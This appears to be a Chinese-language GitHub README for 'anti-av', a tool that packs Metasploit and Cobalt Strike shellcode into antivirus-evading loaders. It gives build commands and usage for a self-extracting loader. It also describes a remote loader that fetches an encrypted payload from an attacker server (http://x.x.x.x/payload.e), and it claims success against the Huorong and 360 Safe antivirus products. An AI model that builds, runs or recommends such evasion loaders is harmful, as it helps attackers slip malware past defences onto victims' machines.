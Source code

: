 # ANTI-AV



## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)



## 安装

### Requirement

```bash
1、建议使用Mac或 linux环境
2、mingw64
3、osslsigncode
```



### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build
```



## 使用方案

### 1、binary自解压shellcode
```bash
./anti-av -l binary -sc ~/Desktop/payload.bin 
```



### 2、binary远程加载shellcode

> STEP1: 生成加密payload (dist目录下生成payload.e)

```bash
./anti-av  -e ~/Desktop/payload.bin 
```
> STEP2: 上传payload.e到服务器

```
略
```

> STEP3: 制作loader

```bash
./anti-av -sc http://x.x.x.x/payload.e 
```



## 测试

| 火绒 | 360安全卫士 |
| ---- | ----------- |
| √    | √           |

